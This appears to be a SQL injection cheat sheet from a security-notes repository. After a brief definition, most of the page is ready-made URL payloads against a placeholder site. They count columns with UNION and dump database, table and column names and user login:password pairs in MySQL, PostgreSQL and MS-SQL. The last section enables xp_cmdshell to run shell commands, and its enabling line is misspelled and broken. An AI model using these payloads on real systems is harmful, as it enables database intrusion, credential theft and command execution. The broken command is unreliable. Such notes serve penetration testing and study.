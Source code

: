 # SQL injection 

## Introduction
It is an attack in which an attacker inserts untrusted data in the application that results in revealing sensitive information of the database. 

SQL Injection (SQLi) is a code injection attack where an attacker manipulates the data being sent to the server to execute malicious SQL statements to control a web application’s database server, thereby accessing, modifying and deleting unauthorized data. This attack is mainly used to take over database servers. 

- In-band SQLi (Classic SQLi) 
- Error-based SQLi
- Union-based SQLi 
- Inferential SQLi (Blind SQLi) 
- Boolean-based (content-based) Blind SQLi 
- Time-based Blind SQLi 
- Out-of-band SQLi 

## Where to find
Everywhere

## How to exploit
# SQLI tricks

## GET

### Error-Based

### Simple test

`Adding a simpe quote '`

Example: `http://vulnerable-website.com/Less-1/?id=5'`

### Fuzzing

Sorting columns to find maximum column

`http://vulnerable-website.com/Less-1/?id=-1 order by 1`

`http://vulnerable-website.com/Less-1/?id=-1 order by 2`

`http://vulnerable-website.com/Less-1/?id=-1 order by 3`

(until it stop returning errors)

---


### Finding what column is injectable

**mysql**
`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, 3` (using the same amount of columns you got on the previous step)

**postgresql**
`http://vulnerable-website.com/Less-1/?id=-1 union select NULL, NULL, NULL` (using the same amount of columns you got on the previous step)

 one of the columns will be printed with the respective number

---


#### Finding version

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, version()` **mysql**
`http://vulnerable-website.com/Less-1/?id=-1 union select NULL, NULL, version()` **postgres**s


#### Finding database name

`http://vulnerable-website.com/Less-1/?id=-1 union select 1,2, database()` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select NULL,NULL, database()` **postgres**


#### Finding usernames logged in

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, current_user()` **mysql**


#### Finding databases

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, schema_name from information_schema.schemata` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, datname from pg_database` **postgres**


#### Finding table names from a database

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, table_name from information_schema.tables where table_schema="database_name"` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, tablename from pg_tables where table_catalog="database_name"` **postgres**


#### Finding column names from a table

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_catalog="database_name" and table_name="tablename"` **postgres**

#### Concatenate

Example:

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, login from users;`
`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, password from users;`

in one query

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, concat(login,':',password) from users;` **mysql**
`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, login||':'||password from users;` **postgres**


### Error Based SQLI (USUALLY MS-SQL)

#### Current user

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096)))--`


#### DBMS version

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096)))--`


#### Database name

`http://vulnerable-website.com/Less-1/?id=-1 or db_name(0)=0 --`


#### Tables from a database

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U')--`

---

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U' AND name NOT IN ('previouslyFoundTable',...))--`


#### Columns within a table


`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename')--`

> remember to change **dbname** and **tablename** accordingly with the given situation
> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample
`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename' AND dbname..syscolumns.name NOT IN('previously found column name', ...))--`


#### Actual data


`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename)--`

> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample
`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename AND name NOT IN('previously found row data'))--`


#### Shell commands

`EXEC master..xp_cmdshell <command>`

> you need yo be 'sa' user
#### Enabling shell commands

`EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_congigure 'xp_shell', 1; RECONFIGURE;`
